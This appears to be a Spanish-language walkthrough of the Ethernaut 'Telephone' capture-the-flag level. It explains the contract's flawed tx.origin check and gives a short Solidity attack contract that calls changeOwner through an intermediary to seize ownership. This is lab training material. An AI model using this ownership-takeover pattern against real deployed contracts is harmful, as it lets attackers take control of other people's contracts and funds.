 # 4-Telephone

## Objetivo
Obtener el ownership del contrato

## Contrato
```Solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Telephone {

  address public owner;

  constructor() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

## Análisis del contrato
* Puede ser compilado con una versión 0.6.0 o superior de Solidity.
* Posee la variable owner del tipo **_address_**
* El constructor, setea al addess que deploya el contrato como su owner.
* Función changeOwner, es pública y recibe como parámetro un address. En esta función se valida si quien origina la transacción (tx.origin) es distinto a quien envía la transacción(msg.sender).
Si esto se cumple se setea como owner el address recibida por parámetro.

## Solución
Dada esa condición de la función changeOwner no podemos llamar directamente. Por lo que tenemos que crear un contrato que llame
esta función por nosotros. De esta forma el tx.origin será nuestra dirección y el msg.sender será la dirección del contrato que hemos creado.

### Contrato hackTelephone
```Solidity
contract hackTelephone {
    Telephone public originalContract = Telephone({{dirección de tu contrato Telephone}});

    function callOwner(address _address)public{
        originalContract.changeOwner(_address);
    }
}
```

Para deployarlo podemos utilizar [Remix](https://remix.ethereum.org/). Una vez deployado, llamamos a la función callOwner de nuestro contrato hackTelephone.
Una vez finalizada la transacción validamos que seamos owner del contrato
```
await ethernaut.owner()
```
Realizamos el submit de la instancia y listo! Quinto reto completado.
